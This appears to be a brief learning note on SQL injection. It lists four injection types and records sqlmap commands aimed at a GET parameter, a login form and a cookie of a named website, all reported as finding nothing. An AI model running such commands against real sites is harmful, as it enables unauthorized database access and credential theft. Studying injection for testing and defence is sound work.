 # Sql injection

 It means attacker can access website's database using query related with perticular database.Mostly I used sqlmap tool for that
purpose.

 Types of sql injection:
1)error based sql injection 2) union based sql injection
3) boolean based sql injection 4) time based sql injection
<html>
  <head> sql injection</head>
  <body> <img src="https://avinetworks.com/wp-content/uploads/2020/04/sql-injection-attack-diagram.png" > </img>
  </body>
  </html>
# Steps
 
  1) First install sqlmap.py from https://github.com/sqlmapproject/sqlmap .
  2) visit http://magnus.jalatechnologies.com/bundles/styles?v=lPGPuSt_xKxNmptTCKJ8QNFrLXCkhCS7B-5FH-7RYpA1.
  3) Perform sql injectionfrom parameter v.
  4) python3 sqlmap.py -u "http://magnus.jalatechnologies.com/bundles/styles?v=lPGPuSt_xKxNmptTCKJ8QNFrLXCkhCS7B-5FH-7RYpA1*" -p v
  5)Not found anything, then try for post request,In username and password parameter.
  6) python3 sqlmap.py -u "http://magnus.jalatechnologies.com//Account/Login" --data "UserName=*&Password=*"
  7) Not found anything,Try in http header.
  8) python3 sqlmap.py -u http://magnus.jalatechnologies.com/ --cookie "Cookie=*"
  9) It also not working.
